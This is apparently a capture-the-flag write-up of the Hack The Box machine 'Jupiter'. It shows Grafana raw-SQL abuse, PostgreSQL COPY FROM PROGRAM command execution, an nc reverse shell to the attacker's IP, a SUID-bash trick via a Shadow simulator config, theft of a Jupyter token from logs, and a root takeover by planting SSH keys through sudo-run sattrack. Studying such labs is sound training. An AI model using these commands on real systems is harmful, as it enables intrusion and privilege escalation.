





# Jupiter HTB

## Overview
---

> Jupiter is a medium HTB box where I began by exploiting a supposed feature in Grafana to execute commands and gain an initial foothold. After establishing a foothold, I took advantage of configuration issues within a script executed by the Shadow Simulator via a cron job. Then, I discovered Jupyter server tokens in log files and leveraged them to execute commands within a Jupyter notebook. Finally, I exploited a customized version of arftracksat, a satellite tracking system, with the ability to run as the root user, elevating my privileges on the system.

---
## Enumeration
---

### Open Ports

I discovered two open ports through a Nmap scan
- port 22 → OpenSSH
- port 80 Nginx web server

```bash
nmap -p22,80 -sV -sC -T4 -Pn -oA 10.129.229.15 10.129.229.15
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-22 10:08 EDT
Nmap scan report for jupiter.htb (10.129.229.15)
Host is up (0.062s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 ac5bbe792dc97a00ed9ae62b2d0e9b32 (ECDSA)
|_  256 6001d7db927b13f0ba20c6c900a71b41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Home | Jupiter
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### port 80 - HTTP

From the HTTP headers, it appears that the IP address redirects to the `jupiter.htb` domain. Unfortunately, no additional information was found in the headers.

```bash
> http -ph 10.129.229.15
HTTP/1.1 301 Moved Permanently
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Thu, 22 Jun 2023 14:12:15 GMT
Location: http://jupiter.htb/
Server: nginx/1.18.0 (Ubuntu)

> http -ph jupiter.htb
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Thu, 22 Jun 2023 14:06:33 GMT
ETag: W/"63ff05bd-4ce0"
Last-Modified: Wed, 01 Mar 2023 07:58:53 GMT
Server: nginx/1.18.0 (Ubuntu)
Transfer-Encoding: chunked
```


The index page appears to be focused on data analytics related to space-related content.


Given the lack of any substantial information on the website and having a valid domain, I decided to fuzz virtual hosts, and discovered another virtual host named `kisok`.

```bash
> wfuzz_subdomain_enum jupiter.htb --hh 178
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://jupiter.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000001955:   200        211 L    798 W      34390 Ch    "kiosk"

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0
```

### kiosk.jupiter.htb

It seems the `kiosk` vhost is a [Grafana](https://github.com/grafana/grafana) instance, which serves as a visualization tool for presenting data related to moons. Grafana is known for creating visually appealing graphs and charts based on metrics collected from external sources.


<!--  -->

---
## Initial Foothold
---

The data source that Grafana is utilizing for its metrics can be listed through the `/api/datasources` [endpoint](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/). In this case, it's a PostgreSQL database named `moon_namesdb`
.
```bash
> http -pb http://kiosk.jupiter.htb/api/datasources
[
    {
        "access": "proxy",
        "basicAuth": false,
        "database": "",
        "id": 1,
        "isDefault": true,
        "jsonData": {
            "database": "moon_namesdb",
            "sslmode": "disable"
        },
        "name": "PostgreSQL",
        "orgId": 1,
        "readOnly": false,
        "type": "postgres",
        "typeLogoUrl": "public/app/plugins/datasource/postgres/img/postgresql_logo.svg",
        "typeName": "PostgreSQL",
        "uid": "YItSLg-Vz",
        "url": "localhost:5432",
        "user": "grafana_viewer"
    }
]
```

### File Read via PostgreSQL

Going back to burp history, found numerous POST requests to the `/api/ds/query` endpoint, where raw SQL queries are being executed through the `rawSql` parameter.



By modifying the `rawSQL` parameter in the request, I was able to retrieve the query's result as the response.



I wrote a Python script to streamline the execution of SQL queries via CLI, simplifying the process.

```python
#!/usr/bin/env python

import re
import requests
import sys
import json

import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

query = sys.argv[1]

username = ""
password = ""
url = "http://kiosk.jupiter.htb/api/ds/query"
proxies = {"http": "http://127.0.0.1:8080"}

payload = {
    "queries": [
        {
            "refId": "A",
            "datasource": {"type": "postgres", "uid": "YItSLg-Vz"},
            "rawSql": f"{query}",
            "format": "table",
            "datasourceId": 1,
            "intervalMs": 60000,
            "maxDataPoints": 939,
        }
    ],
    "range": {
        "from": "2023-06-22T08:22:31.310Z",
        "to": "2023-06-22T14:22:31.310Z",
        "raw": {"from": "now-6h", "to": "now"},
    },
    "from": "1687422151310",
    "to": "1687443751310",
}

try:
    session = requests.Session()

    response = session.post(url=url, json=payload, proxies=proxies, verify=False)
    # print(response.text)

    response_json = response.json()
    executed_query = response_json["results"]["A"]["frames"][0]["schema"]["meta"][
        "executedQueryString"
    ]
    data = response_json["results"]["A"]["frames"][0]["data"]

    print(f"Executed Query: {executed_query}")
    # print(f"{data}")
    print(json.dumps(data, indent=4))


except Exception as e:
    print(f"Exception raised: {e}")
```

With the Python script, I successfully managed to extract information from the `information_schema` tables.

```bash
> python raw_sql_exec.py "select table_name from information_schema.tables;"
Executed Query: select table_name from information_schema.tables;
{
    "values": [
        [
            "moons",
            "pg_statistic",
            "pg_type",
            "pg_foreign_table",
            "pg_authid",
            "pg_shadow",
...
...
...
```

With the capability to execute SQL queries, I can access file contents by following this approach:
1. Create a new table with a schema set to TEXT.
2. Copy the contents of a file into this table.
3. Finally, I can dump the table, thereby allowing me to read the contents of files, such as `/etc/hostname`.

The first two won't return any data, so the script simply returns an Exception.

```bash
❯ python raw_sql_exec.py "create table file_read(file TEXT);"
Exception raised: list index out of range
❯ python raw_sql_exec.py "COPY file_read FROM '/etc/hostname';"
Exception raised: list index out of range
❯ python raw_sql_exec.py "select * from file_read;"
Executed Query: select * from file_read;
{
    "values": [
        [
            "jupiter"
        ]
    ]
}
```

By dumping `/etc/passwd`, identified three users with login shells → `postgres`, `juno` and `jovian`

```bash
❯ python raw_sql_exec.py "COPY file_read FROM '/etc/passwd';"
Exception raised: list index out of range
❯ python raw_sql_exec.py "select * from file_read;"
Executed Query: select * from file_read;
{
    "values": [
        [
            "jupiter",
            "root:x:0:0:root:/root:/bin/bash",
...snip...
            "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin",
...snip...
            "postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash",
            "grafana:x:115:121::/usr/share/grafana:/bin/false",
            "jovian:x:1001:1002:,,,:/home/jovian:/bin/bash",
            "_laurel:x:998:998::/var/log/laurel:/bin/false"
        ]
    ]
}
```

### Command Execution through PostgreSQL

Since I couldn't find any useful information in the database, I decided to explore the [CVE-2019–9193](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193) vulnerability, which enables command execution through PostgreSQL, particularly since I have the capability to execute raw SQL queries.

```bash
> python raw_sql_exec.py "DROP TABLE IF EXISTS cmd_exec;"
Exception raised: list index out of range
> python raw_sql_exec.py "CREATE TABLE cmd_exec(cmd_output text);"
Exception raised: list index out of range
> python raw_sql_exec.py "COPY cmd_exec FROM PROGRAM 'id';"
Exception raised: list index out of range
> python raw_sql_exec.py "SELECT * FROM cmd_exec;"
Executed Query: SELECT * FROM cmd_exec;
{
    "values": [
        [
            "uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)"
        ]
    ]
}
```

#### Shell as postgres

Got a shell as the user `postgres` using the `mkfifo` reverse shell payload.

```bash
❯ python raw_sql_exec.py "COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 9005 >/tmp/f';"
Exception raised: Expecting value: line 1 column 1 (char 0)
```

The connection resets after a few minutes due to a timeout in the `rawSQL` request. Since the user `postgres` has a login shell, I injected SSH keys to establish a persistent session.

```bash
(local) pwncat$ connect -lp 9005
[11:37:46] received connection from 10.129.229.15:35694                                                  bind.py:84
[11:37:48] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash                               manager.py:957
[11:37:49] 10.129.229.15:35694: loaded known host from db                                            manager.py:957
(local) pwncat$
(remote) postgres@jupiter:/var/lib/postgresql/14/main$ id
uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)
```


---
## Shell as Juno
----

Now that I have a shell as `postgres`, my next step is to escalate my privileges to become either `juno` or `jovian`.

```bash
(remote) postgres@jupiter:/$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
juno:x:1000:1000:juno:/home/juno:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
(remote) postgres@jupiter:/$ ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Mar  7 13:00 .
drwxr-xr-x 19 root   root   4096 May  4 18:59 ..
drwxr-x---  6 jovian jovian 4096 May  4 18:59 jovian
drwxr-x---  8 juno   juno   4096 May  4 12:10 juno
```

While using [pspy](https://github.com/DominicBreuker/pspy), I came across a few commands located in the `/dev/shm/` directory, particularly the `network-simulation.yml` file. These commands appear to be cron jobs, and they run under the user "jovian." The `network-simulation.yml` file is executed using the [shadow network simulator](https://github.com/shadow/shadow).

```bash
2023/06/22 15:54:01 CMD: UID=1000  PID=20608  | /bin/bash /home/juno/shadow-simulation.sh
2023/06/22 15:54:01 CMD: UID=1000  PID=20609  | /bin/sh -c /home/juno/shadow-simulation.sh
2023/06/22 15:54:01 CMD: UID=1000  PID=20612  | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml
2023/06/22 15:54:01 CMD: UID=1000  PID=20615  | sh -c lscpu --online --parse=CPU,CORE,SOCKET,NODE
2023/06/22 15:54:01 CMD: UID=1000  PID=20616  | lscpu --online --parse=CPU,CORE,SOCKET,NODE
2023/06/22 15:54:01 CMD: UID=1000  PID=20621  | /usr/bin/python3 -m http.server 80
2023/06/22 15:54:01 CMD: UID=1000  PID=20622  | /usr/bin/curl -s server
2023/06/22 15:54:01 CMD: UID=1000  PID=20624  | /usr/bin/curl -s server
2023/06/22 15:54:01 CMD: UID=1000  PID=20626  |
2023/06/22 15:54:01 CMD: UID=1000  PID=20629  | rm -rf /dev/shm/shadow.data
2023/06/22 15:54:01 CMD: UID=1000  PID=20631  | cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```

```bash
(remote) postgres@jupiter:/dev/shm$ ls -la
total 32
drwxrwxrwt  3 root     root       120 Jun 22 16:02 .
drwxr-xr-x 20 root     root      4020 Jun 22 13:50 ..
prw-------  1 postgres postgres     0 Jun 22 15:44 f
-rw-rw-rw-  1 juno     juno       815 Mar  7 12:28 network-simulation.yml
-rw-------  1 postgres postgres 26976 Jun 22 13:50 PostgreSQL.1576774596
drwxrwxr-x  3 juno     juno       100 Jun 22 16:02 shadow.data
```

> Shadow is a discrete-event network simulator that directly executes real application code, enabling you to simulate distributed systems with thousands of network-connected processes in **realistic** and **scalable** private network experiments using your laptop, desktop, or server running Linux.

The `network-simulation.yml` file appears to implement a client-server model, and the commands specified in the `processes` YAML parameter are being executed as native Linux processes through the system call API.

```yml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

These processes are observable and can be confirmed using `pspy`, with the execution of a command occurring the specified number of times, such as three times in the case of the curl command.

```bash
2023/06/22 17:04:01 CMD: UID=1000  PID=22118  | /usr/bin/python3 -m http.server 80
2023/06/22 17:04:01 CMD: UID=1000  PID=22119  | /usr/bin/curl -s server
2023/06/22 17:04:01 CMD: UID=1000  PID=22121  | /usr/bin/curl -s server
2023/06/22 17:04:01 CMD: UID=1000  PID=22123  | /usr/bin/curl -s server
```

By modifying the `path` and `args` parameters for the processes parameter, it's possible to obtain a privileged bash session as `juno`. To achieve this, I created a copy of `/bin/bash` in the `/tmp` directory, ensuring that it is owned by the `juno` user and setting the SUID bit on it.

```yml
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    processes:
    - path: /usr/bin/chmod
      args: a+s /tmp/bash
      start_time: 5s
```

This will allowed me to execute `/tmp/bash` privileged mode with elevated privileges as `juno`.

```bash
(remote) postgres@jupiter:/dev/shm$ ls -l /tmp/bash
-rwsr-sr-x 1 juno juno 1396520 Jun 22 18:06 /tmp/bash
(remote) postgres@jupiter:/dev/shm$ /tmp/bash -p
(remote) juno@jupiter:/dev/shm$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) egid=1000(juno) groups=1000(juno),119(ssl-cert),120(postgres)
```


---
## Shell as Jovian
----

To establish a stable and persistent session via SSH, I injected my SSH key into `juno`'s SSH directory. This enables me to maintain secure and continuous access to the system as `juno`.

```bash
(remote) juno@jupiter:/home/juno$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
```

### Command execution via jupyter notebook

Discovering that `juno` belongs to the `science` group is intriguing. While searching for files and directories linked to this group, I uncovered some interesting items, including a _flares.ipynb_ notebook and a couple Jupyter logs.

```bash
(remote) juno@jupiter:/home/juno$ find / -group science 2>/dev/null
/opt/solar-flares
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
/opt/solar-flares/flares.html
/opt/solar-flares/cflares.csv
/opt/solar-flares/flares.ipynb
/opt/solar-flares/.ipynb_checkpoints
/opt/solar-flares/mflares.csv
```

<!--  -->


The presence of Jupyter logs suggests that a notebook server is indeed running. By examining the open ports on the server, I discovered port 3000 (default for Grafana), port 5432 for PostgreSQL, which leaves port 8888 for Jupyter. Unfortunately, I encountered issues, as I couldn't even run basic CLI commands like `jupyter notebook list` due to a missing module. The python notebook isn't of much use either unless I can access through jupyter.

```bash
(remote) juno@jupiter:/home/juno$ ss -antlp
State                 Recv-Q                Send-Q                                Local Address:Port                                 Peer Address:Port                Process
LISTEN                0                     511                                         0.0.0.0:80                                        0.0.0.0:*
LISTEN                0                     4096                                  127.0.0.53%lo:53                                        0.0.0.0:*
LISTEN                0                     128                                         0.0.0.0:22                                        0.0.0.0:*
LISTEN                0                     4096                                      127.0.0.1:3000                                      0.0.0.0:*
LISTEN                0                     128                                       127.0.0.1:8888                                      0.0.0.0:*
LISTEN                0                     244                                       127.0.0.1:5432                                      0.0.0.0:*
LISTEN                0                     128                                            [::]:22                                           [::]:*
```

I set up port forwarding for port 8888, allowing me to access the Jupyter notebook server locally on my attack box. This was possible through the SSH connection I had already established.

```bash
> ssh -i id_rsa.juno juno@jupiter.htb -L 8888:127.0.0.1:8888 -N
```

I'm able to access the Jupyter Server login page at `localhost:8888`. It appears to require either a password or a token for access.



To access the Jupyter server, having the token is essential, which I currently lack. However, I do have access to the Jupyter logs, and since I need the token, these logs can potentially provide relevant information.

```bash
(remote) juno@jupiter:/home/juno$ ls -lt /opt/solar-flares/logs/
total 116
-rw-rw-r-- 1 jovian jovian  1536 Jun 22 18:55 jupyter-2023-06-22-50.log
...snip...
```

I found the token in the logs, and the token from the most recent log entry successfully grants access to the notebook server page.

```bash
(remote) juno@jupiter:/home/juno$ cat /opt/solar-flares/logs/jupyter-2023-06-22-50.log
[W 13:50:26.518 NotebookApp] Terminals not available (error was No module named 'terminado')
[I 13:50:26.526 NotebookApp] Serving notebooks from local directory: /opt/solar-flares
[I 13:50:26.527 NotebookApp] Jupyter Notebook 6.5.3 is running at:
[I 13:50:26.527 NotebookApp] http://localhost:8888/?token=0aa258d2dae42795dd2c82a73a6879a2c2a93bfb2316977a
[I 13:50:26.527 NotebookApp]  or http://127.0.0.1:8888/?token=0aa258d2dae42795dd2c82a73a6879a2c2a93bfb2316977a
[I 13:50:26.527 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
[W 13:50:26.532 NotebookApp] No web browser found: could not locate runnable browser.
[C 13:50:26.532 NotebookApp]

    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-1114-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=0aa258d2dae42795dd2c82a73a6879a2c2a93bfb2316977a
     or http://127.0.0.1:8888/?token=0aa258d2dae42795dd2c82a73a6879a2c2a93bfb2316977a
[I 18:44:33.481 NotebookApp] 302 GET / (127.0.0.1) 0.980000ms
[I 18:44:33.617 NotebookApp] 302 GET /tree? (127.0.0.1) 1.520000ms
[W 18:54:02.909 NotebookApp] 401 POST /login?next=%2Ftree%3F (127.0.0.1) 2.830000ms referer=http://127.0.0.1:8888/login?next=%2Ftree%3F

```

Following the use of the token, I can now access the Python notebook that I found earlier on the Jupyter server.



Given that the Python notebook is owned by `jovian`, I have the capability to execute system commands within the notebook using the `os` module, effectively executing commands as `jovian`.


With `os.system()`, I can either establish a reverse shell for remote access or inject my SSH keys into the system.


```bash
❯ pc -lp 9004
[15:11:59] Welcome to pwncat 🐈!                                               __main__.py:164
[15:12:02] received connection from 10.129.229.15:40834                             bind.py:84
[15:12:04] 10.129.229.15:40834: registered new host w/ db                       manager.py:957
(local) pwncat$
(remote) jovian@jupiter:/home/jovian$ id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
(remote) jovian@jupiter:/home/jovian$

```

## Escalating to root

### Sattrack Command execution and file read

It appears that Jovian has sudo privileges to execute the `sattrack` binary as the root user without requiring a password. This can potentially be leveraged for further exploitation.

```bash
(remote) jovian@jupiter:/home/jovian$ sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

Based on the help message, it seems that "sattrack" is a command-line utility for a Satellite Tracking System and it requires a configuration file for its operation.

```bash
(remote) jovian@jupiter:/home/jovian$ ls -l /usr/local/bin/sattrack
-rwxr-xr-x 1 root root 1113632 Mar  8 12:07 /usr/local/bin/sattrack
(remote) jovian@jupiter:/home/jovian$ /usr/local/bin/sattrack --help
Satellite Tracking System
Configuration file has not been found. Please try again!
```

After executing `strings` on the binary and subsequently grepping it for configuration information, I discovered the following key details:
- The configuration file is likely located at `/tmp/config.json`.
- The binary needs several parameters in its config, including:
    - `tleroot`
    - `updatePerdiod`
    - `station`
    - `name`
    - `lat`
    - `lon`
    - `hgt`
    - `mapfile`
    - `texturefile`
    - `tlefile`

```bash
(remote) jovian@jupiter:/home/jovian$ strings /usr/local/bin/sattrack | wc -l
5016
(remote) jovian@jupiter:/home/jovian$ strings /usr/local/bin/sattrack | grep -i config
/tmp/config.json
Configuration file has not been found. Please try again!
tleroot not defined in config
updatePerdiod not defined in config
station not defined in config
name not defined in config
lat not defined in config
lon not defined in config
hgt not defined in config
mapfile not defined in config
texturefile not defined in config
tlefile not defined in config
su_lib_log_config
_GLOBAL__sub_I__Z6configB5cxx11
_Z14validateConfigv
```

I attempted to generate a configuration file at `/tmp/config.json` using the above info, but I encountered an error indicating that the JSON config was malformed. Which means either the structure or the content of the config file is invalid.

```json
{
  "tleroot": "",
  "updatePerdiod": "",
  "station": "",
  "name": "",
  "lat": "",
  "lon": "",
  "hgt": "",
  "mapfile": "",
  "texturefile": "",
  "tlefile": "",
}
```

While searching for a `config.json` file on the system, I came across one located at `/usr/local/share/sattrack/config.json`. This particular configuration file contains a considerably larger number of parameters compared to the one I initially attempted to create.

```bash
(remote) jovian@jupiter:/tmp$ find / -name config.json 2>/dev/null
/usr/local/share/sattrack/config.json
/usr/local/lib/python3.10/dist-packages/zmq/utils/config.json

(remote) jovian@jupiter:/tmp$ cat /usr/local/share/sattrack/config.json
{
    "tleroot": "/tmp/tle/",
    "tlefile": "weather.txt",
    "mapfile": "/usr/local/share/sattrack/map.json",
    "texturefile": "/usr/local/share/sattrack/earth.png",

    "tlesources": [
        "http://celestrak.org/NORAD/elements/weather.txt",
        "http://celestrak.org/NORAD/elements/noaa.txt",
        "http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
    ],

    "updatePerdiod": 1000,

    "station": {
        "name": "LORCA",
        "lat": 37.6725,
        "lon": -1.5863,
        "hgt": 335.0
    },

    "show": [
    ],

    "columns": [
        "name",
        "azel",
        "dis",
        "geo",
        "tab",
        "pos",
        "vel"
    ]
}
```

By searching for "sattrack" with the parameters extracted from the configuration file, I found a GitHub repository named [arftracksat](https://github.com/arf20/arftracksat), which provides insights into the application and its [configurations](https://github.com/arf20/arftracksat#configuring). The interesting ones being:

- `tleroot`: The main directory for downloads.
- `tlefile`: The file within the directory specified by `tleroot` for downloads.
- `tlesources`: The URL for downloading the file.

Considering that the `sattrack` binary can be executed as root, I can write an `authorized_keys` file to root's SSH directory by downloading it from my attack box. `tleresources` also supports the `file://` URI which means I can also read files as root.

```json
"tleroot": "/root/.ssh/",
"tlefile": "authorized_keys",

"tlesources": [
    "http://10.10.14.16/authorized_keys"
],
```

When the "sattrack" binary is executed with root privileges, it fetches the file from the HTTP server hosted on my attack box and saves it to the location specified in its configurations.

```bash
(remote) jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack
Satellite Tracking System
Get:0 http://10.10.14.16/authorized_keys
Satellites loaded
No sats
```

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.229.15 - - [22/Jun/2023 20:16:14] "GET /authorized_keys HTTP/1.1" 200 -

```

Using the the identity key, I can login as root via SSH.

```bash
> ssh -i id_rsa.root root@jupiter.htb
root@jupiter:~# id
uid=0(root) gid=0(root) groups=0(root)
root@jupiter:~# ls -la root.txt
-rw-r----- 1 root root 33 Jun 22 13:51 root.txt
root@jupiter:~#
```

**Pwned!!**

<!--  -->

```bash
root@jupiter:~# cat /etc/shadow | grep root
root:$y$j9T$IW34JPHywVa4Fs590kLAs1$L2hNBUYic4PnYnxpIGE7HXzv.DaeGC4eLE9KJOU6f77:19482:0:99999:7:::
```

---

# Related Links

- [Data source HTTP API | Grafana documentation](https://grafana.com/docs/grafana/latest/developers/http_api/data_source/)
- [PayloadsAllTheThings/SQL Injection/PostgreSQL Injection.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#cve-20199193)
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest | by Greenwolf | Greenwolf Security | Medium](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)
- [GitHub - shadow/shadow: Shadow is a discrete-event network simulator that directly executes real application code, enabling you to simulate distributed systems with thousands of network-connected processes in realistic and scalable private network experiments using your laptop, desktop, or server running Linux.](https://github.com/shadow/shadow)
- [Executing terminal commands in Jupyter notebook - Stack Overflow](https://stackoverflow.com/questions/38694081/executing-terminal-commands-in-jupyter-notebook/58047187#58047187)
- [GitHub - arf20/arftracksat: Satellite tracking software for linux](https://github.com/arf20/arftracksat)
